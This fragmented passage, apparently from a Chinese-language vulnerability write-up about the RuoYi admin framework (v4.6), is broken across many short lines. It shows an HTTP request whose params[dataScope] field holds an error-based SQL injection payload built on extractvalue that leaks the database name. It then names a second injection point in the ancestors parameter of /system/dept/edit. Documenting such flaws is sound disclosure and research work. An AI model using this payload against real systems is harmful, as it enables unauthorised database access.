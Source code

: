   
Connection  
: close            
  
            
  
pageSize  
=  
&  
pageNum  
=  
&  
orderByColumn  
=  
&  
isAsc  
=  
&  
roleName  
=  
&  
roleKey  
=  
&  
status  
=  
&  
params  
[beginTime]=  
&  
params  
[endTime]=  
&  
params  
[dataScope]=and extractvalue(  
1  
,concat(0x7e,(select database(  
))  
,0x7e  
)  
            
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVLy1ItE0DqHNNtibUVK3GB7xaF9UXOxPoK1exapElYnO5YdegcicOb4Hr7auegapwldevwicg4TmI3A/640?wx_fmt=png "")  
  
            
  
             
  
注入点二：  
/system/dept/edit  
      
ancestors参数存在SQL漏洞  
  
RuoYi  
    
v4.6版本  
  